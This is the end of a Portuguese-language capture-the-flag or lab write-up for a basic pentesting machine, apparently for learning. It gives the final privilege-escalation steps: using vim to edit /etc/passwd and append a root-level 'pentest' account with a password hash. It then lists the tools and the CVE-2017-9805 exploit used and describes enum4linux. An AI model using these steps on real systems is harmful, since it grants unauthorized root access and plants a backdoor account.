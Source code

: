 - /usr/bin/vim.basic /etc/passwd
- role ate o final do arquivo, aperte INSERT
- cole a linha pentest:$1$6J7Qm/pl$XEcnTX.drtQwQ4.OMk8RU/:0:0:root:/root:/bin/bash
- de ESC
- digite :wq!
se der algum erro apenas aperte enter
confirme com cat /etc/passwd

Pronto temos root
![Alt text](/assets/img/basicpentest8.png)

Conhecimentos adquiridos:
- enum4linux (incluindo o bug)
- usar o ssh2john
- Vulnerabilidade do CVE-2017-9805
- Usar suid3num.py 

A principal funcionalidade do enum4linux é focada em sistemas que executam o protocolo SMB (Server Message Block), comumente encontrados em ambientes Windows. O SMB é usado para compartilhamento de arquivos, impressoras e outros recursos de rede.